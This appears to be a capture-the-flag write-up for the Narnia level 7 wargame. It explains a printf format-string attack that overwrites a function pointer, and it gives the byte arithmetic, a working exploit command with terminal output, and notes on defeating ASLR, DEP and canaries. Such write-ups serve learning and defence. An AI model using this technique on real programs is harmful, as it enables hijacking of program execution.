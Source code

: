 The arrows indicates the value *%x* will fetch from the buffer. The value will be converted into a string with hexadecimal numbers, and then printed back into buffer. The first *%x* fetches the value of the function pointer. 
```bash
+----------Fetches function pointer value--------------------------+
|                                                                  |
|                                     +------------------------------------------+
|                                     |                            |             |
v  +-----------------+------+------+--v---+------+------+------+---+--+------+---+--+------+
   |                 |      |      |      |      |      |      |      |      |      |      |
   |Base address(BA) | JUNK | BA+1 | JUNK | BA+2 | JUNK | BA+3 | %x%n | %x%n | %x%n | %x%n |
   |                 |      |      |      |      |      |      |      |      |      |      |
   +-----------------+---^--+------+------+------+---^--+------+------+---+--+------+---+--+
                         |                           |                    |             |
                         |                           +----------------------------------+
                         |                                                |
                         +------------------------------------------------+
```

The desired address to be written into the function pointer is **0x08048724**. Because of little-endianness we first must write 0x24 into the base address. Before the first *%x* we have already written 28 bytes to the buffer. This means an additional 0x24-28=8 bytes should be written before doing the %n. Next 0x87 needs to be written, so the field width of the next fetched unsigned integer (which is what you get when you do %x in a printf statement) should equal 0x87-0x24.Once this is done an interesting problem occurs.
We need to write just 0x04 into the next byte, but 0x87 bytes have already been written. The solution is to wrap around to 0x104, meaning a field width of 0x104-0x87 is needed. The same trick is applied for the last byte, where the written value will be 0x208.
The terminal dump below shows the process as well as the specific input required.
```
narnia7@narnia:/narnia$ python
Python 2.7.13 (default, Sep 26 2018, 18:42:22) 
>>> 0x24-28
8
>>> 0x87-0x24
99
>>> 0x104-0x87
125
>>> 0x208-0x104
260
narnia7@narnia:/narnia$ ./narnia7 "$(python -c 'print "\x08\xd5\xff\xff" "JUNK" "\x09\xd5\xff\xff" "JUNK" "\x0a\xd5\xff\xff" "JUNK" "\x0b\xd5\xff\xff""%8x%n" "%99x%n" "%125x%n" "%260x%n"')"
goodfunction() = 0x80486ff
hackedfunction() = 0x8048724

before : ptrf() = 0x80486ff (0xffffd538)
I guess you want to come to the hackedfunction...
Way to go!!!!$ 
```
Lastly I will mention a small detail, which for a long time left me puzzled. When inputting the argument into the program, it is necessary to quote the entire argument. The function pointer resides at an address, which has ascii control characters in it. E.g. 0x09 will be interpreted as a tab by bash and will split the supplied argument (meaning everything to the right of the tab will be in argv[2]). 
### Printf is still dangerous
The code from level 7 is obviously not a real world example. It is deliberately made to be vulnerable. It does however highlight the dangers of carelessly using the printf function. In level 7 snprintf was used to redirect program execution directly into a function which spawned a shell. The level had ASLR, DEP and stack canaries disabled to make it more managable.
However a printf vulnerability can actually  be used for bypassing these defences. Through a printf security hole, one can leak the stack canary value at runtime, and also leak where libc functions reside in memory. Leaking memory addresses can defeat ASLR. Returning into libc defeats DEP.  Unsurprisingly knowing the canary beats the stack canary check.
